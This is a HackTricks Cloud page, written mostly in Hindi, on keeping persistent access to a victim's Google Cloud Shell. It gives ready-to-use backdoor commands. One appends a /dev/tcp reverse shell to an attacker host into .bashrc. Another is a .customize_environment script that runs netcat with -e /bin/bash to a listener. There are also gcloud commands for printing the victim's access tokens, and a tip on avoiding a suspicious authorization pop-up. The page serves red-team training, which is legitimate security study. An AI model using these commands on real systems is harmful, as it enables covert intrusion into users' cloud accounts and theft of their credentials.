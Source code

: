 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) आपको आपके क्लाउड संसाधनों तक सीधे आपके ब्राउज़र से कमांड-लाइन पहुंच प्रदान करता है, बिना किसी संबंधित लागत के।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चलाकर Google का Cloud Shell एक्सेस कर सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएँ हैं:

1. **कोई भी Google उपयोगकर्ता जिसे Google Cloud तक पहुंच है** एक पूरी तरह से प्रमाणित Cloud Shell उदाहरण तक पहुंच रखता है (सेवा खाते, यहां तक कि संगठन के मालिक होने पर भी, ऐसा कर सकते हैं)।
2. कहा गया उदाहरण **कम से कम 120 दिनों तक** अपने होम डायरेक्टरी को बनाए रखेगा यदि कोई गतिविधि नहीं होती है।
3. उस उदाहरण की गतिविधि की निगरानी के लिए **किसी संगठन के पास कोई क्षमता नहीं है**।

इसका मतलब यह है कि एक हमलावर उपयोगकर्ता के होम डायरेक्टरी में एक बैकडोर रख सकता है और जब तक उपयोगकर्ता हर 120 दिनों में कम से कम GC Shell से कनेक्ट करता है, बैकडोर जीवित रहेगा और हमलावर हर बार इसे चलाकर एक शेल प्राप्त करेगा, बस ऐसा करके:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फ़ोल्डर में एक और फ़ाइल है जिसका नाम **`.customize_environment`** है, जो यदि मौजूद है, तो **हर बार** उपयोगकर्ता **क्लाउड शेल** का उपयोग करते समय **निष्पादित** होगी (जैसे पिछले तकनीक में)। उपयोगकर्ता द्वारा "नियमित रूप से" क्लाउड शेल का उपयोग करने तक स्थिरता बनाए रखने के लिए बस पिछले बैकडोर या निम्नलिखित में से एक डालें:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
यह ध्यान रखना महत्वपूर्ण है कि **जब पहली बार कोई क्रिया की जाती है जिसमें प्रमाणीकरण की आवश्यकता होती है**, तो उपयोगकर्ता के ब्राउज़र में एक पॉप-अप प्राधिकरण विंडो प्रकट होती है। इस विंडो को स्वीकार करना आवश्यक है इससे पहले कि कमांड चल सके। यदि कोई अप्रत्याशित पॉप-अप प्रकट होता है, तो यह संदेह पैदा कर सकता है और संभावित रूप से उपयोग की जा रही स्थायीता विधि को खतरे में डाल सकता है।
{% endhint %}

यह पॉप-अप है जो `gcloud projects list` को क्लाउड शेल (हमलावर के रूप में) से निष्पादित करने पर उपयोगकर्ता सत्र में ब्राउज़रों में देखा जाता है:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

हालांकि, यदि उपयोगकर्ता ने सक्रिय रूप से क्लाउडशेल का उपयोग किया है, तो पॉप-अप नहीं दिखाई देगा और आप **उपयोगकर्ता के टोकन एकत्र कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH कनेक्शन कैसे स्थापित किया जाता है

बुनियादी रूप से, इन 3 API कॉल का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (यह आपको आपके द्वारा स्थानीय रूप से बनाए गए सार्वजनिक कुंजी को जोड़ने के लिए कहेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (यह आपको इंस्टेंस शुरू करने के लिए कहेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (यह आपको गूगल क्लाउड शेल का आईपी बताएगा)

लेकिन आप [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) में और जानकारी प्राप्त कर सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
